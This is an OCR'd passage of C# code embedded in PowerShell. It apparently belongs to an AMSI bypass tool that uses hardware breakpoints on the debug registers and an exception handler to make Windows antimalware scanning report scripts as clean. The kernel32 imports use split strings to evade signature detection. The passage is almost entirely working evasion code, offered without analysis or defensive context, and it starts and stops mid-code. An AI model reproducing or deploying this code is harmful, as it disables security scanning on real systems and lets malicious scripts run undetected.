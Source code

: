 ```powershell
                // Continue execution after handling the exception
                return WinAPI.EXCEPTION_CONTINUE_EXECUTION;
            }
            else
            {
                // Continue searching for other exception handlers
                return WinAPI.EXCEPTION_CONTINUE_SEARCH;
            }
        }

        // Enable the breakpoint at the specified address in the context structure
        public static void EnableBreakpoint(WinAPI.CONTEXT64 ctx, IntPtr address, int index)
        {
            switch (index)
            {
                case 0:
                    ctx.Dr0 = (ulong)address.ToInt64();
                    break;
                case 1:
                    ctx.Dr1 = (ulong)address.ToInt64();
                    break;
                case 2:
                    ctx.Dr2 = (ulong)address.ToInt64();
                    break;
                case 3:
                    ctx.Dr3 = (ulong)address.ToInt64();
                    break;
            }

            //Clearing bits 16-31 in Dr7 to disable existing hardware breakpoints,
            ctx.Dr7 = SetBits(ctx.Dr7, 16, 16, 0);
            //Setting the specific hardware breakpoint for the given index
            ctx.Dr7 = SetBits(ctx.Dr7, (index * 2), 1, 1);
            //Clearing Dr6 to handle hardware breakpoint conditions
            ctx.Dr6 = 0;

            Marshal.StructureToPtr(ctx, pCtx, true);
        }

        // Set specified bits in a ulong value
        public static ulong SetBits(ulong dw, int lowBit, int bits, ulong newValue)
        {
            ulong mask = (1UL << bits) - 1UL;
            dw = (dw & ~(mask << lowBit)) | (newValue << lowBit);
            return dw;
        }
    }

    // WinAPI class containing necessary structures and function signatures
    public class WinAPI
    {
        public const Int32 AMSI_RESULT_CLEAN = 0;
        public const Int32 EXCEPTION_CONTINUE_SEARCH = 0;
        public const Int32 EXCEPTION_CONTINUE_EXECUTION = -1;
        public const UInt32 EXCEPTION_SINGLE_STEP = 0x80000004;

        [DllImport("ke" +"rne" + "l32", SetLastError = true)]
        public static extern bool SetThreadContext(IntPtr hThread, IntPtr lpContext);

        [DllImport("ke" +"rne" + "l32", SetLastError = true)]
        public static extern bool GetThreadContext(IntPtr hThread, IntPtr lpContext);

        [DllImport("ke" +"rne" + "l32", SetLastError = true)]
```